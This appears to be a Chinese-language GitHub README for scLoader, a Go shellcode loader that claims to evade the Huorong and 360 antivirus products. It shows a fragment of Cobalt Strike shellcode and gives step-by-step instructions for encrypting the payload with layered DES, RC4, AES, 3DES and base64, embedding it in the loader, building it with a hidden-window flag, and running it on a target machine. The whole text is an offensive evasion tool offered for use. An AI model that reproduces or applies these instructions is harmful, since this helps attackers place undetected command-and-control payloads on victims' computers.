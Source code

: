 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用
1、编译sparrow.go(不想编译直接`go run`也行)

找到项目中builder/sparrow.go文件，然后如图编译即可

![](https://github.com/Peithon/scLoader/blob/master/imgs/build-sparrow.png)

2、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

3、将加密之后的shellcode填充到`/loader/loader.go`中的shellcode变量

4、将`-e参数的值`(加密顺序)填充到`/loader/loader.go`中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

5、编译`/loader/loader.go`文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" ./loader/loader.go
```

6、上传到目标机器，使用`loader.exe -token`命令加载shellcode



